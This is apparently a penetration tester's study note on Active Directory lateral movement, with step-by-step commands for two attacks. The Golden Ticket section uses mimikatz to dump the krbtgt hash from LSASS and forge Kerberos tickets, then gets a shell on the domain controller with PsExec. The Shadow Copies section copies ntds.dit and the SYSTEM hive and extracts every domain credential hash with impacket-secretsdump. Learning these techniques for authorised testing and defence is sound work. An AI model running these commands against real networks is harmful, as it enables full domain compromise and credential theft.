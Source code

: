 # Active Directory Lateral Movement


## Golden Tickets

If you can obtain krbtgt's password hash, we can create our own valid TGTs. This is ggs.
- krbtgt password is never changed, only in a rare instance when upgrading from a pre-2008 Windows server, but not from newer versions.
- this means we can find very old krbtgt hashes which may be easier to crack (but you dont need to crack the hash to create golden tickets, just extract it)

In newer AD, you can only create Golden Tickets for existing users (you could previously make it for non-existing users) and assign them to any groups you want.

### Pre-requisites
1. Access to the Domain Admins group or access to the Domain Controller
2. Domain SID (can get from `whoami /user`)

### Execution

1. Get krbtgt password hash using `lsadump`, which extracts data from the SAM database
   ```
   mimikatz # privilege::debug
   mimikatz # lsadump::lsa /patch
   ```
   - `/patch` is added to attempt to disable any defences or safeguards around accessing LSASS
2. Clear tickets in memory with mimikatz `kerberos::purge`
3. Create the Golden Ticket
   ```
   mimkatz # kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_NTLM_HASH> /ptt
   ```
   - Creation of the ticket does not require any elevated privileges and can be done on non-domain-joined computers
   - By default, this ticket will provide user ID `500` which is the RID of the built-in administrator for the domain and group IDs of the most privileged AD groups, including Domain Admins
4. *(Optional)* launch new command prompt and test access:
    ```
    mimikatz # misc::cmd

    C:\> PsExec.exe \\<DOMAIN_CONTROLLER_HOSTNAME> cmd.exe
    C:\Windows\system32> whoami /groups
    ```
    - Assuming this Domain Controller was previously unreachable, we can infer if ticket was injected into memory based on whether we're granted access
    - Ensure the hostname is used in PsExec command because **using the IP will force NTLM authentication** instead and the attack will **fail**


## Shadow Copies

Make a 'shadow copy' of the Active Directory information. We can then copy this backup to our local Kali machine and use for further attacks, such as offline password cracking or pass-the-hash attacks etc.

### Pre-requisites

1. Elevated access to the Domain Controller

### Execution

1. Launch elevated shell in domain controller
2. `vshadow.exe` utility to create the backup:
   ```
   vhasdow.exe -nw -p C:
   ```
   - `-nw` = no-writers; used for speed in bacxkup creation
   - `-p` to store copy on disk
3. Take note of the backup's name in the `SNAPSHOT ID` section: "Shadow copy device name:"
4. Copy AD database from the shadow copy to the C: drive root folder:
   ```
   copy <FULL_SHADOWCOPY_DEVICE_NAME>\windows\ntds\ntds.dit C:\ntds.dit.bak
   ```
   - This needs to include the weird looking `\\?\GLOBALROOT` thing - the \\\\? just allows for long path names
5. Save the SYSTEM hive from the Windows registry using the `reg.exe` utility:
   ```
   reg.exe save HKLM\SYSTEM C:\system.bak
   ```
6. Copy both files back to Kali
7. Extract credentials, e.g. using `secretsdump` from impacket suite:
   ```
   impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
   ```
   - Use `LOCAL` keyword to do this locally.
8. Do further stuff with the hashes